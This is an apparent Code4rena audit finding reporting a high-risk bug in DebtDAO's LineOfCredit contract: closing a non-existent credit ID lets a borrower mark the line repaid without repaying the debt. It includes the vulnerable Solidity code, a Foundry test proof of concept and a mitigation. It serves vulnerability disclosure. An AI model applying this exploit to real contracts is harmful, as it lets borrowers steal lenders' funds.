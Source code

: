 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- sponsor confirmed
- selected for report
- H-04

# [Borrower can close a credit without repaying debt](https://github.com/code-423n4/2022-11-debtdao-findings/issues/258) 

# Lines of code

https://github.com/debtdao/Line-of-Credit/blob/e8aa08b44f6132a5ed901f8daa231700c5afeb3a/contracts/modules/credit/LineOfCredit.sol#L389


# Vulnerability details

## Impact
A borrower can close a credit without repaying the debt to the lender. The lender will be left with a bad debt and the borrower will keep the borrowed amount and the collateral.
## Proof of Concept
The `close` function of `LineOfCredit` doesn't check whether a credit exists or not. As a result, the `count` variable is decreased in the internal `_close` function when the `close` function is called with an non-existent credit ID:
[LineOfCredit.sol#L388](https://github.com/debtdao/Line-of-Credit/blob/e8aa08b44f6132a5ed901f8daa231700c5afeb3a/contracts/modules/credit/LineOfCredit.sol#L388):
```solidity
function close(bytes32 id) external payable override returns (bool) {
    Credit memory credit = credits[id];
    address b = borrower; // gas savings
    if(msg.sender != credit.lender && msg.sender != b) {
      revert CallerAccessDenied();
    }

    // ensure all money owed is accounted for. Accrue facility fee since prinicpal was paid off
    credit = _accrue(credit, id);
    uint256 facilityFee = credit.interestAccrued;
    if(facilityFee > 0) {
      // only allow repaying interest since they are skipping repayment queue.
      // If principal still owed, _close() MUST fail
      LineLib.receiveTokenOrETH(credit.token, b, facilityFee);

      credit = _repay(credit, id, facilityFee);
    }

    _close(credit, id); // deleted; no need to save to storage

    return true;
}
```

[LineOfCredit.sol#L483](https://github.com/debtdao/Line-of-Credit/blob/e8aa08b44f6132a5ed901f8daa231700c5afeb3a/contracts/modules/credit/LineOfCredit.sol#L483):
```solidity
function _close(Credit memory credit, bytes32 id) internal virtual returns (bool) {
    if(credit.principal > 0) { revert CloseFailedWithPrincipal(); }

    // return the Lender's funds that are being repaid
    if (credit.deposit + credit.interestRepaid > 0) {
        LineLib.sendOutTokenOrETH(
            credit.token,
            credit.lender,
            credit.deposit + credit.interestRepaid
        );
    }

    delete credits[id]; // gas refunds

    // remove from active list
    ids.removePosition(id);
    unchecked { --count; }

    // If all credit lines are closed the the overall Line of Credit facility is declared 'repaid'.
    if (count == 0) { _updateStatus(LineLib.STATUS.REPAID); }

    emit CloseCreditPosition(id);

    return true;
}
```

Proof of Concept:
```solidity
// contracts/tests/LineOfCredit.t.sol
function testCloseWithoutRepaying_AUDIT() public {
    assertEq(supportedToken1.balanceOf(address(line)), 0, "Line balance should be 0");
    assertEq(supportedToken1.balanceOf(lender), mintAmount, "Lender should have initial mint balance");
      
    _addCredit(address(supportedToken1), 1 ether);

    bytes32 id = line.ids(0);
    assert(id != bytes32(0));

    assertEq(supportedToken1.balanceOf(lender), mintAmount - 1 ether, "Lender should have initial balance less lent amount");
    
    hoax(borrower);
    line.borrow(id, 1 ether);
    assertEq(supportedToken1.balanceOf(borrower), mintAmount + 1 ether, "Borrower should have initial balance + loan");
    
    // The credit hasn't been repaid.
    // hoax(borrower);
    // line.depositAndRepay(1 ether);
    
    hoax(borrower);
    // Closing with a non-existent credit ID.
    line.close(bytes32(uint256(31337)));

    // The debt hasn't been repaid but the status is REPAID.
    assertEq(uint(line.status()), uint(LineLib.STATUS.REPAID));

    // Lender's balance is still reduced by the borrow amount.
    assertEq(supportedToken1.balanceOf(lender), mintAmount - 1 ether);

    // Borrower's balance still includes the borrowed amount.
    assertEq(supportedToken1.balanceOf(borrower), mintAmount + 1 ether);
}
```
## Tools Used
Manual review
## Recommended Mitigation Steps
In the `close` function of `LineOfCredit`, consider ensuring that a credit with the user-supplied ID exists, before closing it.